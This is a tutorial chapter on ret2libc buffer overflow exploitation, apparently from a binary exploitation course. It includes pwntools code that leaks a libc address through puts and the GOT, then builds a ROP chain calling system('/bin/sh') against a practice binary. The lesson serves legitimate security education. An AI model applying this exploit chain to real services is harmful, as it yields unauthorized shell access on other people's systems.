

<div align='center'>

# **Buffer Overflow: Ret2libc**

</div>

## **1. Prerequisite Knowledge**

## **1.0 Previous Chapter**

[Chapter 10](./Chapter10_Introduction_to_Buffer_Overflows.md)

[Chapter 12](./Chapter12_Linux_Buffer_Overflows.md)

### **1.1 Linux x64 Calling Convention**

In 64-bit Linux system, function arguments of type integer/pointers are passed to the callee function in the following way:
- Arguments 1-6 are passed via registers RDI, RSI, RDX, RCX, R8, R9 respectively
- Arguments 7 and above are pushed on to the stack.

Example:

```c
#include <stdio.h>

int test(int a, int b, int c, int d, int e, int f, int g, int h, int i)
{
    int a2 = 0x555577;
    return 1;
}

int main(int argc, char *argv[])
{
    test(0x1, 0x2, 0x3, 0x4, 0x5, 0x6, 0x7, 0x8, 0x9);
    return 1;
}

// compile with gcc stack.c -o stack
```

**Inside the debugger**


**Inside the test() function**


**Stack frame of main() function**


### **1.2. Libc**

Libc is a library that contains the standard library functions for the C programming language. It defines built-in functions such as `printf()`, `malloc()`, `strcpy()`, etc. Libc is loaded into memory when a program is executed. The memory address of libc is different for each system. We can find the libc address by using the `ldd` command.


## **1.3. Global Offset Table (GOT) and Procedure Linkage Table (PLT)**

The Global Offset Table is a section inside of programs that holds addresses of functions that are dynamically linked


Procedure Linkage Table is, put simply, used to call external procedures/functions whose address isn't known in the time of linking, and is left to be resolved by the dynamic linker at run time


The first time these functions (gets, scanf, etc…) are called in the program, there is an entry in PLT for this function. This is a pointer pointing to an address in GOT. GOT has the address pointing to the function directly in the Libc. So next time the function gets() or other functions is called, It doesn’t need to go into Libc for this , rather it will use the PLT to get the function address easily


## **2. Ret2libc**

**Vulnerable binary**

https://github.com/Hellsender01/Youtube/tree/main/Binary%20Exploitation/8.%20Ret2PLT

### **2.1. General Idea**


- EIP is overwritten with address of the `system()` function located inside libc;
- Right after the address of `system()`, there's address of the function `exit()`, so that once `system()` returns, the vulnerable program jumps the `exit()`, which also lives in the libc, so that the vulnerable program can exit gracefully;
- Right after the address of `exit()`, there's a pointer to a memory location that contains the string `/bin/sh`, which is the argument we want to pass to the `system()` function.

**Finding the offset to trigger segmentation fault: at 40**



**Finding pop_rdi gadget**

We need to find the address of the `pop rdi; ret` gadget in order to overwrite the EIP. 

```bash
ropper --file=ret2plt --search "pop rdi"
```


We can see that the address of the `pop rdi; ret` gadget is `0x00000000004012c3`.

When EIP is overwritten with the address of the `pop rdi; ret` gadget, the rdi register will be overwritten. Therefore, we effectively control the argument of the function.

**Leaking the address of libc**

We will exploit the vulnerability to call `puts()` with the GOT address of `puts()` as the argument. From the output, we can calculate the address of libc because the offset between the address of `puts()` in libc and the address of `puts()` in the GOT table is fixed.

```python
pop_rdi = pack(0x00000000004012c3)
puts_plt = pack(elf.plt['puts'])
puts_got = pack(elf.got['puts'])

payload = cyclic(40) + pop_rdi + puts_got + puts_plt

...

leak = io.recvline().split(b'\n')[0]
leak = u64(leak.ljust(8, b'\x00'))
libc.address = leak - libc.symbols['puts']
```

**Reuse the main function**

After thes address is leaked, the binary doesn't know where to return and this crashes our program. To stop this from happening we use the starting address of the main function as a return point

```python
main = pack(elf.symbols['main'])

payload = cyclic(40) + pop_rdi + puts_got + puts_plt + main
```


**Overwrite EIP with the address of system()**

We will call `system()` with the argument `/bin/sh` to get a shell.

Note: We need the address of the `ret` gadget (0x000000000040101a) to make sure that the stack is aligned properly.


```python
bin_sh = pack(next(libc.search(b'/bin/sh')))
system = pack(libc.symbols['system'])
ret = pack(0x000000000040101a)

payload = cyclic(40) + ret + pop_rdi + bin_sh + system
```

